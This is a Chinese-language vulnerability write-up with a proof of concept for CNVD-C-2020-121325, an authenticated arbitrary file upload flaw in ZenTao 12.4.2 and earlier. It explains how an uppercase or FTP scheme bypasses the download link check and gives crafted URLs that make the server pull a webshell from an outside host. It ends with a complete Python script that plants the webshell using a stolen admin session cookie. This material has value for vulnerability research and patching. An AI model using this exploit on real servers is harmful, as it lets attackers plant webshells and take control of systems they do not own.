

# 禅道 12.4.2 后台任意文件上传漏洞 CNVD-C-2020-121325

## 漏洞描述

百度云安全团队监测到禅道官方发布了文件上传漏洞的风险通告，该漏洞编号为CNVD-C-2020-121325，漏洞影响禅道<=12.4.2版本。登陆管理后台的恶意攻击者可以通过fopen/fread/fwrite方法读取或上传任意文件，成功利用此漏洞可以读取目标系统敏感文件或获得系统管理权限。我们对漏洞进行了复现和分析，由于需要登录后台才可以利用，实际风险相对较低，建议受影响的禅道用户尽快升级到最新版。

## 漏洞影响

```
禅道 <= 12.4.2版本
```

## 环境搭建

百度下12.4.2的禅道环境按步骤安装下载即可

[禅道官方网站](https://www.zentao.net/)


调用接口查询版本信息

```plain
http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```


## 漏洞复现

漏洞触发需要后台权限

根据漏洞描述查看修改后的代码片段


**修改前**

```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
```

**修改后**

```php
public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(!preg_match('/^https?\:\/\//', $decodeLink)) return false;

    $file      = basename($link);
    $extension = substr($file, strrpos($file, '.') + 1);
    if(strpos(",{$this->config->file->allowed},", ",{$extension},") === false) return false;

    return parent::downloadZipPackage($version, $link);
}
```

这里传入的参数为版本和link地址，然后base64解码，正则判断是否为**http**或**https**协议，这里的正则过滤并不完整，所以可以绕过用于下载恶意文件


可以大写**http**或请求**FTP**来绕过正则


跟进一下**parent::downloadZipPackage**这个方法，跟着来到**zentao\module\client\model.php**文件中


```php
public function downloadZipPackage($version, $link)
    {
        ignore_user_abort(true);
        set_time_limit(0);
        if(empty($version) || empty($link)) return false;
        $dir  = "data/client/" . $version . '/';
        $link = helper::safe64Decode($link);
        $file = basename($link);
        if(!is_dir($this->app->wwwRoot . $dir))
        {
            mkdir($this->app->wwwRoot . $dir, 0755, true);
        }
        if(!is_dir($this->app->wwwRoot . $dir)) return false;
        if(file_exists($this->app->wwwRoot . $dir . $file))
        {
            return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
        }
        ob_clean();
        ob_end_flush();

        $local  = fopen($this->app->wwwRoot . $dir . $file, 'w');
        $remote = fopen($link, 'rb');
        if($remote === false) return false;
        while(!feof($remote))
        {
            $buffer = fread($remote, 4096);
            fwrite($local, $buffer);
        }
        fclose($local);
        fclose($remote);
        return commonModel::getSysURL() . $this->config->webRoot . $dir . $file;
    }
```

可以简单看到这里获取link传入的文件名，通过**fopen**打开该文件，写入禅道目录**www/data/client/version**中

查看一下有没有调用这个方法的地方


找到了**download**方法调用了这个漏洞点，所以我们有两种下载恶意文件的方法

```plain
http://xxx.xxx.xxx.xxx/www/client-download-[$version参数]-[base64加密后的恶意文件地址].html
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=[$version参数]&link=[base64加密后的恶意文件地址]
```

首先先上传一个恶意文件，可以是FTP也可以是HTTP

例如我上传的文件URL为[**http://peiqi.tech/SHELL.php**](http://peiqi.tech/SHELL.php)

```plain
http://peiqi.tech/SHELL.php
|
base64加密  HTTP://peiqi.tech/SHELL.php
|
SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

请求地址则为

```plain
http://xxx.xxx.xxx.xxx/www/index.php?m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```


下载的目录地址为**zentaopms\www\data\client\1**

目录为version名称


成功上传webshell


## 漏洞POC

- POC使用需要拥有后台Cookie

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')
    print('+  \033[34mVersion: zentao version <= 12.4.2                                 \033[0m')
    print('+  \033[36m使用格式: python3 CNVD-C-2020-121325.py                             \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mShell       >>> http://xxx.xxx.xxx.xxx/shell.php(恶意文件地址)       \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)


def POC_2(target_url, shell_url, zentaosid):
    options = shell_url.split("://")
    if options[0] == "http":
        shell_url = "HTTP://" + options[1]
    elif options[0] == "ftp":
        shell_url = "ftp://" + options[1]
    else:
        print("\033[31m[x] 请使用正确的请求地址 \033[0m")
        sys.exit(0)

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"zentaosid={}".format(zentaosid)
    }

    shell_url_base = str((base64.b64encode(shell_url.encode('utf-8'))),'utf-8')
    vuln_url = target_url + "/www/index.php?m=client&f=download&version=test&link={}".format(shell_url_base)
    print("\033[32m[o] 请求漏洞url：{}\033[0m".format(vuln_url))

    try:
        response = requests.get(url=vuln_url, timeout=20, headers=headers)
        if "保存成功" in response.text:
            print("\033[32m[o] 成功写入Webshell，URL地址为：{}/www/data/client/test/Webshell_name.php\033[0m".format(target_url))
        else:
            print("\033[31m[x] 恶意文件下载失败 \033[0m")
    except:
        print("\033[31m[x] 恶意文件下载失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    shell_url  = str(input("\033[35mShell >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, shell_url, zentaosid)
```

